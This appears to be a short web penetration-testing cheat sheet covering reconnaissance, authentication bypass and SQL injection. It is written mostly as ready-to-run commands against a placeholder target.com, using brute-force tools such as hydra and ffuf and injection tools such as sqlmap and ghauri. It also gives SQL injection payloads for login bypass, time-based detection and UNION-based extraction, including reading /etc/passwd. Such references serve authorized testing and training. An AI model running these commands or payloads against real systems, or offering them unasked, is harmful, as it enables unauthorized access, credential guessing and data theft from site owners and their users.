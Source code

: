 ```yaml
---

---
```

___

## **RECONNAISSANCE**
*Present on: All web applications*

**Manual:** Browser dev tools, view source, directory guessing
**Automated:**
```bash
subfinder -d target.com | httpx -silent
ffuf -w /usr/share/wordlists/dirb/common.txt -u https://target.com/FUZZ
nuclei -u target.com -t technologies/
```

##  **AUTHENTICATION BYPASS**
*Present when: Poor auth implementation, weak validation logic*

**Manual:** Try default creds, manipulate login flow, check session handling
**Automated:**
```bash
hydra -L users.txt -P pass.txt target.com http-post-form
ffuf -w creds.txt -u target.com/login -X POST -d "user=FUZZ&pass=FUZZ"
```

**Exploit:**
```sql
' OR 1=1--
admin'--
```

##  **SQL INJECTION**
*Present when: User input directly concatenated into SQL queries*
Detailed cheatsheet: [SQL Injection](../../Web%20Application/Injections/SQL%20Injection.md)

**Manual:** Add `'` to parameters, observe errors, test time delays
**Automated:**
```bash
sqlmap -u "target.com/page?id=1" --batch --dbs
ghauri -u "target.com/page?id=1"
```

**Exploit:**
```sql
# Detection
' OR SLEEP(5)--
' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--

# Extraction
' UNION SELECT 1,version(),database()--
' UNION SELECT 1,load_file('/etc/passwd'),3--
```
